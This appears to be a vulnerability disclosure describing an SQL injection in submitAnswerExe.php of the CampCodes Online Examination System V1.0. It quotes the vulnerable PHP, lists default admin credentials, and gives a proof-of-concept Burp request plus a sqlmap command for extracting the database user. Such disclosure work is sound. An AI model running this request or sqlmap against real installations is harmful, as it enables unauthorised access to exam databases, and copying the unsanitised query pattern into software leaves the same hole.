

## Online Examination System With Timer

## SQL Injection on `submitAnswerExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/query/submitAnswerExe.php
```

The potential injection point is located in `submitAnswerExe.php`. This file directly utilizes the `$exmne_id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# submitAnswerExe.php

extract($_POST);
$exmne_id = $_SESSION['examineeSession']['exmne_id'];
$selExAttempt = $conn->query("SELECT * FROM exam_attempt WHERE exmne_id='$exmne_id' AND exam_id='$exam_id'  ");
$selAns = $conn->query("SELECT * FROM exam_answers WHERE axmne_id='$exmne_id' AND exam_id='$exam_id' ");
if($selExAttempt->rowCount() > 0)
{
	$res = array("res" => "alreadyTaken");
}
```

### Proof of Concept:

**Burp Request:**

```
POST /query/submitAnswerExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 85
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/home.php?page=exam&id=11
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

exam_id=11&examAction=&answer%5B30%5D%5Bcorrect%5D=fgh&answer%5B29%5D%5Bcorrect%5D=q2
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**


